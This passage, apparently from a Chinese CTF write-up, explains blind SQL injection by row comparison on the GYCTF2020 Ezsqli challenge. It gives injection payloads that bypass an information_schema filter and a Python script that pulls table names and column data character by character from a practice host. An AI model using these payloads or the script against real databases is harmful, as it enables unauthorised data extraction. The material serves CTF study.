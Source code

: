 利用这个特性，就可以逐字符爆破数据，当然，如果因为在相等时返回**0**，所以在进行爆破时，我们爆破出来的**1**的时候，是比正确字符要大1的，所以在编写脚本时，我们要**-1**才能得到正确字符。

以[[GYCTF2020\]Ezsqli](https://blog.csdn.net/weixin_45646006/article/details/120073020)这道题为例，这个题我们可以先用sys.schema_table_statistics_with_buffer或sys.x$schema_table_statistics_with_buffer代替information_schema.tables，获得列名f1ag_1s_h3r3_hhhhh，然后我们可以判断字段数：

- 输入`2||((select 1,1)>(select * from f1ag_1s_h3r3_hhhhh))`，发现网页输出`Nu1L`
- 输入`2||((select 1,1,1)>(select * from f1ag_1s_h3r3_hhhhh))`，发现网页输出`bool(false)`

因此只有两个列，然后我们可以分开注入两个列的值，给一个脚本：

```
import requests
import time
Original_url = "http://e78d520e-a527-4dc7-9262-5997951db6c3.node4.buuoj.cn:81/index.php"
Success_message = ["Nu1L","V&N"]
data = {"id": ""}
table_name_payload = "2||(select ascii(substr(group_concat(table_name),{},1)) from sys.x$schema_table_statistics_with_buffer where table_schema=database())>{}"
column_1_payload = '2||((select "{}",1)>(select * from {}))'
column_2_payload = '2||((select 1,"{}")>(select * from {}))'

def getname(payload):
    name = ''
    for i in range(1, 100):
        begin = 32
        end = 126
        mid = (begin + end) // 2
        while begin < end:
            data["id"] = payload.format(i,mid)
            RowText = requests.post(Original_url, data=data)
            if Success_message[0] in RowText.text:
                begin = mid + 1
            else:
                end = mid
            mid = (begin + end) // 2
        if (mid == 32):
            print()
            break
        name += chr(mid)
        print("\r表名: " + name, end="")

def GetData(table_name, column_payload):
    flag = ''
    for i in range(1, 100): #数据的第i位
        time.sleep(0.3) #暂停
        begin = 32
        end = 126
        mid = (begin + end) // 2 #取整除，返回商的整数部分（向下取整）
        while begin < end:
            tmp = flag + chr(mid)
            data["id"] = column_payload.format(tmp, table_name)
            RowText = requests.post(Original_url, data=data)
            if Success_message[1] in RowText.text: # 这里用V&N判断
                begin = mid + 1
            else:
                end = mid
            mid = (begin + end) // 2
        if (mid == 33):
            print()
            break
        flag += chr(mid - 1)
        print(("\r表%s的数据: " + flag.lower()) % (table_name), end="")

getname(table_name_payload)
```